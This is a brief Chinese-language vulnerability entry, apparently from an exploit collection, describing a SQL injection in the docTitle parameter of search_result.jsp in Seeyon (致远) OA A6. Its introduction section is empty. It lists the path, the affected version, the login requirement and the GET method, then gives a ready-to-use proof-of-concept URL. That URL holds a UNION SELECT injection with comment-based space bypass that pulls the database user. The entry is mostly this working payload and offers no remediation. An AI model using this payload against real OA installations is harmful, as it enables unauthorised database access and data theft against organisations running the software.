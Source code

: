 ```yaml
---
title: "致远OA A6 search_result.jsp sql注入漏洞"
id: zhfly3347
---
```


# 致远OA A6 search_result.jsp sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
/yyoa/oaSearch/search_result.jsp 
```

##### 漏洞详情:

```
版本：A6
注意：需登录账户
注入发生在search_result.jsp文件中的docTitle参数 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/oaSearch/search_result.jsp?docType=协同信息&docTitle=1'and/**/1=2/**/ union/**/all/**/select/**/user(),2,3,4,5%23&goal=1&perId=0&startTime=&endTime=&keyword=&searchArea=notArc 
```